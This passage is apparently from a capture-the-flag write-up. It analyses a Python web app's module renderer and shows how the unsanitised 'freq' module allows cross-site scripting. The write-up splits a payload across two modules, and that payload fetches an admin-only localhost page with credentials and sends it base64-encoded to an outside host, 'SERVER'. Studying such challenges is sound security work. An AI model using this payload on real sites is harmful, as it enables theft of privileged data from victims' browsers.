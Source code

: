 ```python
    elif name == "char_count":
        bucket.append(
            "<p>{}</p>".format(
                escape(
                    f"<strong>{len(cfg)}</strong> characters and <strong>{len(cfg.split())}</strong> words"
                )
            )
        )
    elif name == "text":
        bucket.append("<p>{}</p>".format(escape(cfg)))
    elif name == "freq":
        counts = Counter(cfg)
        (char, freq) = max(counts.items(), key=lambda x: x[1])
        bucket.append(
            "<p>All letters: {}<br>Most frequent: '{}'x{}</p>".format(
                "".join(counts), char, freq
            )
        )
    else:
        return (ERR, "Invalid component name")
    return (OK, bucket)


```

We can notice that we can only submit two modules, we have a reset feature to wipe all the created modules and all our input is well sanitized except all the letters used in **freq** module. Taking into consideration all the constraints 
we have, we can only inject two times (because of the maximum number of modules), the non sanitized input is passed to **Collectons.Counter** so every duplicated character will be removed which prevent us from injecting all the payload .

Burp request to reset the modules:

![TASK](https://imgur.com/en49sjU.png) 

I started struggling a little bit here and tried passing the component config as an array (I noticed when testing locally that when passing an array to Collections.Counter it won't remove dup chars) but it didn't lead me anywhere.

After watching some anime, I took another look at the challenge and got the idea to split my payload and inject it separately in the two modules, firstly we can inject ```<script>/*``` in the **freq** module ( Input is not sanitized so we can safely open a script tag)
and the ``` /* ``` to comment all the garbage between the two modules and then inject our second payload ```*/function r(u){var c=new XMLHttpRequest();c.withCredentials=true;c.open(`GET`,u,false);c.send(null);return c.responseText;}var b=r(`http://127.0.0.1:8080/?fakeuser=admin`);fetch(`https://SERVER/?a=`%2Bbtoa(b));// ``` in **text** module ( we have to make sure that it will not contain any characters that can be escaped ). I used the backtick instead of the quotation marks.

This is the final result after injecting:

![TASK](https://imgur.com/IO30QBL.png)
